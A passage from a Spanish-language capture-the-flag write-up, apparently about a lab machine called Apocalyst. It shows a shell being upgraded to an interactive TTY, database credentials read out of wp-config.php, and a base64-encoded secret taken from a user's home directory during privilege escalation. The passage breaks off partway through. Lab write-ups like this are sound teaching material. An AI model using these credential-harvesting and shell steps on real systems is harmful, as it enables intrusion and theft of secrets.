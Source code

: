 ```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

Ya estamos en una `TTY` completamente `interactiva`

```
www-data@apocalyst:/var/www/html/apocalyst.htb$ whoami
www-data
```

## Privilege Escalation

`Obtenemos` las `credenciales` de la `base de datos` del `wp-config.php`, sin embargo, `no` nos `sirve de nada` debido a que en la `base de datos` no hay `nada interesante`

```
www-data@apocalyst:/var/www/html/apocalyst.htb$ cat wp-config.php
/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'Th3SoopaD00paPa5S!');
```

Nos encontramos esto en el `directorio` de `falaraki`

```
www-data@apocalyst:/home/falaraki$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .cache  .nano  .profile  .secret  .sudo_as_admin_successful  .wp-config.php.swp  user.txt
www-data@apocalyst:/home/falaraki$ cat .secret
S2VlcCBmb3JnZXR0aW5nIHBhc3N3b3JkIHNvIHRoaXMgd2lsbCBrZWVwIGl0IHNhZmUhDQpZMHVBSU50RzM3VGlOZ1RIIXNVemVyc1A0c3M=
```

Como es `base64` podemos `descifrarlo` fácilmente
